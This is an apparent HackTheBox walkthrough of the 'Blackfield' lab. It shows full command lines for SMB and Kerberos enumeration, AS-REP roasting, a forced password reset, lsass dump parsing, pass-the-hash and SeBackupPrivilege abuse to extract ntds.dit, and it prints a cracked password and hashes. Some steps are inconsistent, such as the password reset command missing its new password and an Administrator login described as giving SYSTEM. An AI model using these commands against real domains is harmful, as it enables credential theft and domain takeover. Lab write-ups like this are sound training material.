

# Blackfield — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Hard
**OS:** Windows

---

## TL;DR

Anonymous SMB enumeration leads to username extraction → AS-REP Roasting gets a hash for `support` → BloodHound reveals `support` can reset the `audit2020` password → Access to the `forensic` SMB share → Extract `lsass.dmp` and parse with `pypykatz` to obtain `svc_backup` hash → WinRM access as `svc_backup` → Exploit `SeBackupPrivilege` using `diskshadow` to dump `ntds.dit` → Administrator hash extraction for Root.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 10.10.10.192
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 53 | DNS | Simple DNS Plus |
| 88 | Kerberos | Microsoft Windows Kerberos |
| 135 | RPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 389 | LDAP | Microsoft Windows AD LDAP (Domain: BLACKFIELD.local) |
| 445 | SMB | microsoft-ds |
| 593 | RPC over HTTP | Microsoft Windows RPC over HTTP 1.0 |
| 3268 | Global Catalog | Microsoft Windows AD LDAP |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |
| 49677 | RPC | Microsoft Windows RPC |

The results show a standard Windows Server Domain Controller (DC01) for the domain `BLACKFIELD.local`.

---

## Exploitation — AS-REP Roasting & BloodHound

Initial tests using `smbclient` and `crackmapexec` (now `netexec`) show that anonymous access is permitted to list shares, but access across most shares is denied.

Let's do some basic user enumeration using a generated guest/null session to retrieve a list of Active Directory users. Using `netexec` and probing shares blindly yields access to the `profiles$` share:

```bash
smbclient //10.10.10.192/profiles$ -U ''
```

Inspecting the `profiles$` share reveals several directories acting as usernames. We copy these names into a `users.txt` file and run `kerbrute` to validate them against the DC:

```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 users.txt -d BLACKFIELD.local
```

Results highlight three valid accounts:
- `audit2020@BLACKFIELD.local`
- `support@BLACKFIELD.local`
- `svc_backup@BLACKFIELD.local`

With valid usernames, we can attempt an **AS-REP Roasting** attack against accounts that have "Do not require Kerberos preauthentication" enabled:

```bash
impacket-GetNPUsers -dc-ip 10.10.10.192 -usersfile users.txt -request -no-pass blackfield.local/
```

We successfully extract an AS-REP hash for the `support` user. We crack it offline using `hashcat` to get the credentials: `support:#00^BlackKnight`.

Next, we run the BloodHound ingestor via Python to map out the domain using the `support` credentials:

```bash
bloodhound-python -u "support" -p "#00^BlackKnight" -d blackfield.local -c all --zip -ns 10.10.10.192
```

Loading the zipped data into BloodHound, we discover that the `support` user has `ForceChangePassword` over the `audit2020` account. We exploit this to reset the password for `audit2020` using `net rpc`:

```bash
net rpc password audit2020 -U support -S 10.10.10.192


```

Now we have access to the `audit2020` account. Re-enumerating the SMB shares with these new credentials shows that `audit2020` has read access to the `forensic` share:

```bash
netexec smb 10.10.10.192 -u audit2020 -p "Password123!" --shares
```

Inside the `forensic` share, we find a file named `lsass.dmp`—a memory dump of the Local Security Authority Subsystem Service. We download it and parse it using `pypykatz` to extract cached credentials:

```bash
pypykatz lsa minidump lsass.DMP
```

This dumps two critical NTLM hashes:
- `svc_backup:9658d1d1dcd9250115e2205d9f48400d`
- `administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62`

The `svc_backup` user is part of the `Remote Management Users` group. We use Evil-WinRM to get a shell on the Domain Controller.

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

We have user access.

---

## Privilege Escalation — SeBackupPrivilege

Checking our privileges with `whoami /priv`, we see that `svc_backup` possesses `SeBackupPrivilege`. This privilege allows an account to bypass all NTFS file permissions to read any file on the system, intended for taking system backups.

We can abuse this to copy the `NTDS.dit` file (the Active Directory database containing all domain hashes) along with the `SYSTEM` registry hive. Because `NTDS.dit` is constantly in use by the OS, it is locked. We must use the built-in `diskshadow` wrapper to create a Volume Shadow Copy to bypass this lock.

We create a text file named `lol.dsh` locally to automate the `diskshadow` commands:

```cmd
set context persistent nowriters
add volume c: alias lol
create
expose %lol% z:
```

We carefully convert it to DOS format (`unix2dos lol.dsh`) to prevent carriage return errors, upload it via WinRM, and execute it:

```cmd
diskshadow /s lol.dsh
```

This successfully exposes a shadow copy of the `C:` drive to the `Z:` drive. Next, we use `robocopy` in backup mode (`/b`) to bypass the file lock and copy `ntds.dit`:

```cmd
robocopy /b z:\windows\ntds . ntds.dit
```

We also need the `SYSTEM` hive to decrypt the NTDS database, which we extract easily from the registry:

```cmd
reg save hklm\system c:\windows\tasks\system
```

We download both the `ntds.dit` and `system` files to our attacking machine. Locally, we use `impacket-secretsdump` to extract all the hashes:

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

This yields the hash for `Administrator:184fb5e5178480be64824d4cd53b99ee`. 

We reuse Evil-WinRM to log in as `Administrator` using Pass-The-Hash.

We are `NT AUTHORITY\SYSTEM`. **Root.** 🎉

---

## Key Takeaways

- **Over-Permissioned Accounts:** Do not grant normal IT users (like `support`) generic `ForceChangePassword` rights over other domain accounts blindly.
- **SMB Permissions:** Null sessions disclosing usernames via the `profiles$` share creates a gateway for AS-REP roasting. Ensure access-based enumeration (ABE) and proper ACLs are strictly enforced on all file shares.
- **SeBackupPrivilege:** Service accounts handling backups are inherent targets. Limit their logon rights exclusively to the necessary domains or systems they interact with, as `SeBackupPrivilege` guarantees full Domain Admin equivalence. 

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*